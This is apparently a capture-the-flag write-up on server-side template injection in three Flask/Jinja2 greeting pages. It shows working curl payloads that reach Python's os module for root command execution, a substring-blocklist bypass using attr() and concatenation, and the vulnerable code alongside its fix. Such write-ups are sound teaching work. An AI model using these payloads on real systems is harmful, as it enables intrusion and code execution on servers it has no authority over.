

# SSTI TRIO (MOONLIGHT CLUB · PLAYER ONE · CITRUS STUDIO), Server-Side Template Injection → RCE, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Targets** | MOONLIGHT CLUB (8020), PLAYER ONE (8040), CITRUS STUDIO (8050), three "type your name, get a greeting" pages |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.10/3.11, HTTP, TCP (EC2) |
| **IP:Ports** | `54.72.82.22:8020`, `:8040`, `:8050` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | All three reflect my input through a Jinja2 template with no sandbox → `{{7*7}}`→`49` → full RCE as **root** → read the flag. 8050 adds a keyword filter I had to bypass. |
| **Honesty note** | These three came out of a sweep of the "second wave" of ports. I'm keeping the dead-ends in because they're the part worth learning from. |

---

## 1. The Short Version

Three different skins, a K-pop fan club, an arcade, an indie studio, but the same bones. Each has a single text box that produces a personalized greeting:

- MOONLIGHT CLUB: *"Your bias. Your message. A fan greeting made just for you."*
- PLAYER ONE: *"Welcome, player &lt;name&gt;"*
- CITRUS STUDIO: *"Hello, &lt;name&gt;! Did you find the suspects yet?"*

"Made just for you" is the tell. Something is splicing my input into a response string **server-side**. When the string builder is a template engine and my input lands in the *template* rather than the *data*, I don't control text, I control code.

The probe that decides it in one request:

```bash
curl -s -X POST http://54.72.82.22:8040/ --data-urlencode 'name={{7*7}}'
# → "Welcome, player 49"
```

`49`, not `{{7*7}}`. That's **Jinja2 Server-Side Template Injection**. From there Jinja gives me a path to Python's `os` module, and `os` gives me a shell.

**What I walked away with**

| Challenge | Port | Flag |
|---|---|---|
| MOONLIGHT CLUB | 8020 | `safctf{ac4c0d4a503d4ef281530c5ca9dc8fa4}` |
| PLAYER ONE | 8040 | `safctf{287a681f8f9aa898e0743b5b392952b0}` |
| CITRUS STUDIO | 8050 | `safctf{42dd8c3f359acdfc9b4250f4864ffc35}` |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | User input concatenated into a Jinja2 template string and rendered | **Server-Side Template Injection** (CWE-1336 / CWE-94) | `name` / `message` POST field | Critical (RCE) |
| 2 | No sandboxed environment; `__globals__` reachable from exposed globals (`lipsum`, `cycler`) | Insecure template context | same | Critical |
| 3 | (8050) Blocklist filter on `__`, `config`, `'os'` presumed sufficient | Input-filter bypass (CWE-184) | same |, (bypassed) |

---

## 3. Recon

I hit each root and read the body. All three are Flask/Werkzeug dynamic apps (not static), each with one form:

```html
<!-- 8020 -->  <form method='POST'><input name='message' ...></form>
<!-- 8040 -->  <form method="POST"><input name="name" ...></form>
<!-- 8050 -->  <form method="POST" action="/"><input name="name" required></form>
```

The confirming probe across all three:

```bash
for p in 8020 8040 8050; do
  field=message; [ $p = 8040 -o $p = 8050 ] && field=name
  curl -s -X POST http://54.72.82.22:$p/ --data-urlencode "$field={{7*7}}"
done
# 8020 → "... 49"
# 8040 → "Welcome, player 49"
# 8050 → "Hello, 49! Did you find the suspects yet?"
```

Three `49`s. Three SSTIs.

> Sanity check I always run: `{{7*7}}`→`49` means a template engine evaluated it. `${7*7}` or `#{7*7}` would point at a different engine (Spring/Thymeleaf/Freemarker, etc.). Only `{{...}}` fired here → Jinja2.

---

## 4. The Exploit

### 4.1 MOONLIGHT CLUB & PLAYER ONE, straight through

First instinct was the classic `cycler.__init__.__globals__.os` gadget. It came back **empty** on both, that module's globals don't carry `os`. No matter; Jinja exposes several globals and `lipsum` is the reliable one. I enumerated what's actually in scope:

```bash
curl -s -X POST http://54.72.82.22:8020/ --data-urlencode \
  "message={{ self._TemplateReference__context.keys() }}"
# dict_keys(['range','dict','lipsum','cycler','joiner','namespace',
#            'url_for','get_flashed_messages','config','request','session','g'])
```

`lipsum` is a Python function, so `lipsum.__globals__` is the module globals of `jinja2.utils`, which imports `os`. That's my pivot to the OS:

```bash
curl -s -X POST http://54.72.82.22:8020/ --data-urlencode \
  "message={{ lipsum.__globals__['os'].popen('id').read() }}"
# uid=0(root) gid=0(root) groups=0(root)
```

Root. Now just locate and print the flag:

```bash
# 8020
curl -s -X POST http://54.72.82.22:8020/ --data-urlencode \
  "message={{ lipsum.__globals__['os'].popen('cat /app/flag; grep -ria safctf /app').read() }}"
# /app/flag:safctf{ac4c0d4a503d4ef281530c5ca9dc8fa4}

# 8040 (flag was one level deeper)
curl -s -X POST http://54.72.82.22:8040/ --data-urlencode \
  "name={{ lipsum.__globals__['os'].popen('find / -maxdepth 4 -name flag* 2>/dev/null; cat /app/app/flag.txt').read() }}"
# /app/app/flag.txt:safctf{287a681f8f9aa898e0743b5b392952b0}
```

`{{ config }}` on 8020 confirmed `DEBUG: True`, these are dev servers left wide open.

### 4.2 CITRUS STUDIO, the one with a filter

Same `{{7*7}}` worked, but the moment I sent the `lipsum.__globals__['os']` payload I got:

> **Invalid input detected! You might need to Try Hard!!**

So there's a blocklist. I fingerprinted it one token at a time (send token, watch for the "Invalid" banner vs. a normal render):

| Input | Result |
|---|---|
| `{{config}}` | **BLOCKED** |
| `{{ "".__class__ }}` | **BLOCKED** (the `__`) |
| `{{()["__class__"]}}` | **BLOCKED** (the `__`) |
| `{{ 'os' }}` | **BLOCKED** (literal `os`) |
| `{{ lipsum }}`, `{{ cycler }}`, `{{ request }}`, `{{ ''\|attr('upper') }}` | all OK |
| single `_`, `'popen'`, `'read'`, `'1'='1'` | all OK |

So the filter is a dumb substring blocklist: **`__`**, **`config`**, and the literal **`os`**. Everything I need to *build* those is allowed, `attr`, string concatenation, single underscores. So I assemble them at runtime so the forbidden substrings never appear in my input:

- `__globals__` → `'_' + '_globals_' + '_'` (no two underscores ever adjacent in the source text)
- access it via the filter `|attr(...)` instead of `.`
- `os` → `'o' + 's'`

```bash
G="lipsum|attr('_'+'_globals_'+'_')"
curl -s -X POST http://54.72.82.22:8050/ --data-urlencode \
  "name={{ ($G)['o'+'s'].popen('find / -maxdepth 3 -iname \"*flag*\" 2>/dev/null; grep -ria safctf /app').read() }}"
# /app/templates/flag.txt:safctf{42dd8c3f359acdfc9b4250f4864ffc35}
```

Root again.

---

## 5. The Dead-Ends (kept on purpose)

- **`cycler.__init__.__globals__.os` returned nothing.** Everyone copy-pastes that gadget; it only works if `os` is in *that* module's globals. `lipsum.__globals__` is the more dependable Jinja pivot. Lesson: **enumerate the context** (`...__context.keys()`) instead of guessing a gadget.
- **On 8050 I first assumed `__` was the only block.** It wasn't, the literal `os` was *also* filtered, which is why `attr('_'+'_globals_'+'_')` alone still failed. I only found it by bisecting token-by-token. Lesson: fingerprint the *whole* blocklist before building the bypass.
- **I treated an empty response as "payload failed."** Sometimes it was the HTML-stripper eating multi-line command output. Grepping the raw response fixed that.

---

## 6. Why It Worked & How I'd Fix It

- **Root cause:** the apps build the greeting with something like `render_template_string("Welcome, player " + name)`. The user's bytes become part of the **template source**, so Jinja compiles and executes them. In Jinja2 there is no real sandbox by default, and reachable globals expose Python's import machinery.
- **The fix is one line of intent:** never put user input in the *template*; put it in the *data*.

```python
# VULNERABLE
render_template_string("Welcome, player " + name)
# SAFE — input is a variable, rendered as text, auto-escaped
render_template_string("Welcome, player {{ name }}", name=name)
# SAFER — a real template file
return render_template("player.html", name=name)
```

- A blocklist (8050) is **not** a fix. I defeated it with string concatenation in minutes. Filters are speed bumps; the only real control is keeping input out of the template.

---

## 7. Timeline

- Swept ports 8020/8040/8050 → three greeting forms → `{{7*7}}` on each → three `49`s.
- 8020/8040: `cycler` gadget empty → enumerated context → `lipsum.__globals__['os']` → root → flags.
- 8050: hit the "Invalid input" filter → bisected the blocklist (`__`, `config`, `os`) → rebuilt the payload with `attr()` + concat → root → flag.

---

## 8. References

- PortSwigger, **Server-side template injection**
- Payloads All The Things, **Server Side Template Injection / Jinja2**
- CWE-1336 (Server-Side Template Injection), CWE-94 (Code Injection), CWE-184 (Incomplete Blocklist)
- Jinja2 docs, `render_template_string`, sandboxed vs. default environment

**Lesson I'm keeping:** `{{7*7}}` is the cheapest RCE test on the internet. When a page says it builds something *"just for you,"* type math and see if it does the math.
